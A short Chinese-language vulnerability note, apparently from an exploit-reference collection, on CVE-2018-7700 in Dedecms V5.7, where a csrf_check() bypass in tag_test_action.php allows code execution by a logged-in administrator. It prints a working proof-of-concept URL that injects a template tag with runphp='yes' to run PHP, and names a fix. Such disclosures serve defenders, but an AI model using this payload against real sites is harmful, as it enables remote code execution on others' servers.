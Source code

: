 # Dedecms V5.7后台任意代码执行CVE-2018-7700

## 漏洞简介

该漏洞的触发文件为 /dede/tag\_test\_action.php。起因是 csrf\_check() 函数的绕过，导致可执行任意代码。

## POC

```
http://localhost/后台地址/tag_test_action.php?url=a&token=&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```


![](Dedecms%20V5.7%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8CCVE-2018-7700/20180328005501-96c638a6-31df-1.png) 

## 利用条件

登录后台

## 解决方案

重新实现 csrf\_check() 函数

## 参考来源

先知社区：https://xz.aliyun.com/t/2224